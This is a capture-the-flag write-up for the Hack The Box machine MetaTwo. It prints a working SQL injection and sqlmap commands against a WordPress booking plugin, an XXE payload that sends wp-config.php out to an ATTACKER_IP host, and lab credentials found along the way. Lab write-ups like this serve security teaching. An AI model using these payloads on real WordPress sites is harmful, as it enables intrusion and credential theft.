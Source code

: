 # MetaTwo

A writeup for the machine [MetaTwo](https://app.hackthebox.com/machines/MetaTwo) on Hack The Box.

<Image src={require("./banner.png").default} width="700" />

## Footprinting

### Nmap scan

By scanning with nmap we can find three open ports. In particular, on port 80 there is a website available based on Wordpress at the address `metapress.htb`

<Image src={require("./nmap.png").default} />

### Web server

By looking to the source code of the index it is possible to see that the website uses Wordpress.

<Image src={require("./source.png").default} />

## User flag

### Exploiting Wordpress

We can also notice that a plugin called bookingpress-appointment-booking is used. with version 1.0.10. It is enough to search on Google for vulnerabilities to find a SQLi.

[https://wordpress.org/plugins/bookingpress-appointment-booking/](https://wordpress.org/plugins/bookingpress-appointment-booking/)

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

The SQLi is:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

Enumerate dbs

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --dbs
```

Enumerate users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch -D blog -T wp_users --dump
```

Get password of admin and manager users

```bash
sqlmap -u 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=3187120274&category_id=33&total_service=1' -p total_service --batch --sql-query "SELECT user_pass FROM wp_users WHERE ID=1"
```

<Image src={require("./sqlmap.png").default} />

Final hashes

```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. admin
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 manager
```

Using hashcat and the rockyou list is possible to find the password for manager: `partylikearockstar`.

<Image src={require("./manager.png").default} />

Once inside we can try to exploit the permissions of the manager user.
We can use tool like Wappalyzer to find the version of Wordpress used by the website (5.6.2).

There is a vulnerability that exploits the upload of a new media element to the website. The vulnerability is described here:

[https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

One file will be used for upload:

```xml title="payload.wav"
RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://ATTACKER_IP:ATTACKER_PORT/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Another will be server on the attacker machine:

```xml title="xxe.dtd"
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:ATTACKER_PORT/?%data;'>">
```

Change ATTACKER_IP and ATTACKER_PORT with your values.

Remember to serve the file on your local pc:

```bash
python3 -m http.server PORT
```

In the `wp-config.php` we can find the credentials for the ftp server:

```php title="wp-config.php"
...
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
...
```

<Image src={require("./ftp.png").default} />

In addition to the blog files, there is also a folder called `mailer` where we can find a file `send_email.php`.
Inside the file we can find the credentials for the mail server:

```php title="send_email.php"
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

### Accessing with SSH

We can use the credentials that we found to login via SSH.

```bash
ssh jnelson@TARGET_IP
```

Once inside the machine, we can find the user flag inside the home directory.

```bash
cat user.txt
```

